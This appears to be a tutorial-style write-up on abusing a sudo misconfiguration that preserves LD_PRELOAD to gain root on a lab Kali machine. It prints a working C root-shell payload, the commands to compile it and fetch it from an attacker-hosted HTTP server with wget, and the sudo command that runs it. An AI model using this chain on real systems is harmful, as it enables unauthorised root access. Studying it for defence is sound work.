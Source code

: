 # Background on Sudo

Sudo allows access to restricted files by temporarily elevating the privileges of the user to the `root` user. Sudo was introduced as a safer way to elevate privileges by mitigating the risks associated with unrestricted access to the root account by executing only the command as the root user.

For users to use the `sudo` command, they must be in the sudoers file located at /etc/sudoers. To edit the sudoers file, you should use the following command to open the file with 'visudo', which parses the file for syntax errors.
```
sudo visudo
```

To add or remove accounts from the sudoers file, the user has to be in the sudo group which can be arranged by using the command:

```
sudo usermod -aG sudo [username]
```

You can check your user's privileges by running the command: `sudo -l`

```
Matching Defaults entries for kayem on kali:
    env_reset, env_keep+=LD_PRELOAD

User kayem may run the following commands on kali:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
```

`env_reset` is an option that defaults environment variables before running the command as root, unless the environment variable is added to the list of preserved variables with the `env_keep` option. In the example above, we can see that the `LD_PRELOAD` environment variable is retained when resetting the environment.

To restrict `LD_PRELOAD` from loading in arbitrary shared libraries, dynamic linkers ignore the environment variable if the real user ID (ruid) is different to the effective user ID (uid). The real user ID represents the user who executed the sudo command and the effective user ID represents the user ID under which the process is running. For instance, when running processes with sudo, the ruid will be 1000 but the uid will be 0 (root) so the environment variable will be ignored. 

# Practical

Using the `sudo -l` command, I discover that the user `kayem` has access to three programs: find, less, and nano. We can abuse the `LD_PRELOAD` environment variable by uploading the following C program to spawn a root shell.

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```
The program can then be compiled into an object file with the following gcc command:
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
Once compiled, we can host a python3 HTTP server to transfer the object file from our machine to the target machine. We can start an HTTP server with the command:
```
sudo python3 -m http.server 8000
```
And download the file on our target machine.
```
wget http://[IP address]:8000/shell.so
```

Finally, we run the following command to spawn our root shell.

```
sudo LD_PRELOAD=/home/kayem/shell.so find
```

This command runs the "find" program with sudo rights so thus the whole command is run with sudo rights and then the LD_PRELOAD environmental variable is set to the specified path.
